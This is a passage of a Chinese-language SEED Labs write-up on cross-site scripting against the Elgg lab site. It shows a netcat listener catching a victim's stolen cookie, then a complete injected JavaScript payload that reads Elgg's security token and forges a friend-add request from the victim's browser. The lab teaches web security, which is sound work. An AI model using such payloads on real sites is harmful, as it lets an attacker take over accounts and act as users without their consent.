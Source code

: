 ```shell
nc -lknv 5555
```

![3-1](../image/3-1.png)

可以看到刚保存完 Samy 的 cookie 就已经被发送了。

![3-2](../image/3-2.png)

---

## Task 4: Becoming the Victim’s Friend

在此任务中，我们需要编写一个恶意 JavaScript 程序，直接从受害者的浏览器伪造 HTTP 请求，而无需攻击者的干预。

攻击的目的是将 Samy 添加为受害者的好友。

在 CSRF_Attack 实验中，我们已经了解了添加好友的请求方式：

>可以看到加好友的请求格式为：`http://www.seed-server.com/action/friends/add?friend=?&__elgg_ts=?&__elgg_token=?`
>
>请求参数中有很多参数，`friend=56` 是 `alice` 的 userid。`__elgg_ts` 和 `__elgg_token` 为时间戳和 token。

接下来我们基于此编写 JavaScript 程序发送 HTTP 请求。

```html
<script type="text/javascript">
    // 当窗口加载完成时执行函数
    window.onload = function () {
        var Ajax=null;
       
        var ts="&__elgg_ts=" + elgg.security.token.__elgg_ts;           // 获取Elgg的安全时间戳
        var token="&__elgg_token=" + elgg.security.token.__elgg_token;          // 获取Elgg的 token
        
        // 构造发送请求的URL，包括目标地址和token
        var sendurl="http://www.seed-server.com/action/friend/add?friend=59" + ts + token;
         
        Ajax = new XMLHttpRequest();          // 创建一个新的XMLHttpRequest对象
        Ajax.open("GET", sendurl, true);	  // 打开一个GET请求，指定目标URL和异步执行
        Ajax.send();						  // 发送请求
    }
</script>

```